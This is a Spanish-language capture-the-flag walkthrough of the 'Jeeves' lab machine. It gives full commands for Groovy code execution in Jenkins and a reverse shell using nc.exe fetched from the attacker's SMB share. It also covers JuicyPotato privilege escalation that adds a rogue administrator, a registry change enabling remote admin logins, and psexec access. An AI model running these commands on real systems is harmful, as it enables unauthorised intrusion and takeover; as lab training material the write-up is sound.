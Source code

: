 # Jeeves

## Enumeración

```bash
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open http Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

El escaneo muestra 2 paginas webs .

### Puerto 80

La pagina web del `puerto 80` muestra un buscador

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FOIQI4fVUSJHwjB2K8GkV%2Fimage.png?alt=media&#x26;token=f7de2c24-f015-4341-8ac3-a9f96c5dac63" alt=""><figcaption></figcaption></figure>

Al buscar cualquier cosa la pagina muestra un error

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FDTQnczzYotqMmenExKGJ%2Fimage.png?alt=media&#x26;token=ad14bc66-d14b-4ac0-84c5-615891bb38c5" alt=""><figcaption></figcaption></figure>

### Puerto 50000

La pagina web del `puerto 50000` muestra una pagina en html donde parece no haber nada interesante

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FxSFmCRxhxl6mX4SitqMH%2Fimage.png?alt=media&#x26;token=f4125cf5-3c8a-4ce4-b3aa-2902cef79af0" alt=""><figcaption></figcaption></figure>

Al hacer un escaneo de dominios con dirsearch podemos encontrar un directorio oculto `/askjeeves`&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FH9VdXPNrmVXAj7TNH3Gb%2Fimage.png?alt=media&#x26;token=d3085497-137c-458d-96d6-e4f53a91f5a7" alt=""><figcaption></figcaption></figure>

En esa ruta tenemos Jenkins, que es un servidor de automatización de código abierto.&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FZ4EfLwMkRMtQTU2pOLUg%2Fimage.png?alt=media&#x26;token=65c37ae2-6bc1-48a0-ac33-23e59103ebc0" alt=""><figcaption></figcaption></figure>

## Explotación

### Jenkins

Cuando nos topamos con un Jenkins hay que estar atento ya que si aparece la opción "Manage Jenkins". Esta opción trae un modulo donde podemos ejecutar comandos en el lenguaje Groovy.&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FNzMIbThtzvZKsu7WEpD4%2Fimage.png?alt=media&#x26;token=7a8ba68b-f5ce-4a50-8dfd-3ee9ec7d04de" alt=""><figcaption></figcaption></figure>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FCnnGxHpybg1c4GV70Rsz%2Fimage.png?alt=media&#x26;token=cfb3c7c3-2e79-4d28-a78f-956eb2b783c0" alt=""><figcaption></figcaption></figure>

Si buscamos en Internet podemos buscar como ejecutar comandos de shell con Groovy.

```go
println "ls".execute().text
```

Ya que podemos ejecutar comandos podemos hacer una reverse shell. En mi caso voy a crear un servidor SMB en mi maquina de atacante donde tengo un archivo nc.exe. También nos ponemos en escucha para recibir la shell.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

```bash
rlwrap nc -lvnp 4444
```

Y en la consola de Jenkins me mando una shell usando ese archivo

```go
println "\\\\10.10.14.36\\smbFolder\\nc.exe -e cmd 10.10.14.36 4444".execute().text
```

Y ya tendriamos acceso al `user.txt`&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fux14dsi8zN1ilrNk2SAo%2Fimage.png?alt=media&#x26;token=cec5a8b4-311b-4c1a-b722-82e51ae3781a" alt=""><figcaption></figcaption></figure>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FBi6v0cfUF3Oyz7QDyfQC%2Fimage.png?alt=media&#x26;token=dc86fd41-c30e-4cd4-bc0b-3ab20c2d3ac9" alt=""><figcaption></figcaption></figure>

## Escalada

Si vemos los privilegios de nuestro usuario con

```bash
whoami /priv
```

Podemos observar que tenemos el privilegio `SeImpersonatePrivilege` activado. Este privilegio se puede explotar con la herramienta `JuicyPotato` de la siguiente manera:

### JuicyPotato

Ya que tenemos un server smb propio vamos a meter el binario de JuicyPotato en el y vamos a pasarlo a la maquina victima.

```powershell
copy \\10.10.14.36\smbFolder\JuicyPotato.exe
```

Ahora intentamos crearnos un usuario usando esta herramienta.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user ub1cu0 Abc123. /add" -l 1337
</strong></code></pre>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FkFCAX9VguHPdY7TlOhUi%2Fimage.png?alt=media&#x26;token=908163ad-ceff-4072-9b1a-b9fbeeb59176" alt=""><figcaption></figcaption></figure>

Ahora que nos ha funcionado vamos a intentar moverlo al grupo Administradores.

```
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators ub1cu0 /add" -l 1337
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FDJrcqXPL3IOSiShuoFQA%2Fimage.png?alt=media&#x26;token=520bfd6f-18e7-41bb-8b21-f735644f1d31" alt=""><figcaption></figcaption></figure>

Si intentamos checkear el logeo con `netexec` para ver si sale la flag "(Pwned!)" no va a salir, esto se debe a que para que salga, aparte de tener al usuario en el grupo administradores hay que editar un registro que hay en Windows que por defecto no permite la conexión remota con el usuario administrador con SMB.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F83bnX2sZ2pKykkwZRUeb%2Fimage.png?alt=media&#x26;token=62a7d6d9-3724-489f-9d0c-483be05b7f6b" alt=""><figcaption></figcaption></figure>

Vamos a editar el registro para permitirlo con:

```powershell
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
```

Y ahora veremos la flag (Pwned!)

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F2iNbIq2U7V9zphIq2Utr%2Fimage.png?alt=media&#x26;token=28fb830e-7f33-4f57-bf7b-ce1e53bf459f" alt=""><figcaption></figcaption></figure>

### PsExec

Ahora podemos usar la herramienta `PsExec` y usar el servicio smb para conseguir una shell del usuario "Administrator" con el siguiente comando:

```bash
impacket-psexec WORKGROUP/ub1cu0@jeeves.htb cmd.exe
```

Este comando necesita que el usuario tenga la etiqueta (Pwned!) con el netexec y que posea permiso para escribir en alguna carpeta SMB. En este caso con el usuario que hemos creado y que hemos hecho admin tenemos acceso de escritura en el recurso `ADMIN$` pero si no hubiera ningún recurso que cumpliera estos objetivos podríamos crear uno y funcionaría igual.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FWRCj03ie2PmTlMuJ4Jbp%2Fimage.png?alt=media&#x26;token=06962b0f-6793-4153-8910-c7fd5746e51d" alt=""><figcaption></figcaption></figure>

### Alternate Data Streams

Ahora ya tendríamos acceso a la flag `root.txt` pero en este caso no es así ya que, si vamos a la carpeta donde debería estar encontraremos este archivo que nos incita a buscar mas profundo.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fqo5sbamx16kvQg0YwUf2%2Fimage.png?alt=media&#x26;token=c34cef95-8776-49ca-bcd1-ee96f11a610f" alt=""><figcaption></figcaption></figure>

En este caso hay que saber de la existencia de las Data Alternate Stream, que en resumen en una forma de guardar texto oculto en ficheros de texto. Esto se puede ver si ponemos la flag `/r` a `dir` .

&#x20;&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FERuENUow6JowIBENrBNY%2Fimage.png?alt=media&#x26;token=d8551993-21d9-4dbb-9e88-6514bc2a0705" alt=""><figcaption></figcaption></figure>

Ahora que vemos el archivo oculto podemos ver su contenido volcandolo al comando more de la siguiente manera:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FPtOMRzegBgvhrOUvc8fo%2Fimage.png?alt=media&#x26;token=47dae2d3-da56-4417-99c1-654a00d1543c" alt=""><figcaption></figcaption></figure>

Y así habremos completado la maquina Jeeves. Gracias por leer!&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F6Ed0pvcJfCGvDm0rgHSp%2Fimage.png?alt=media&#x26;token=c898ed26-2658-4944-8598-739f06dac8ab" alt=""><figcaption></figcaption></figure>
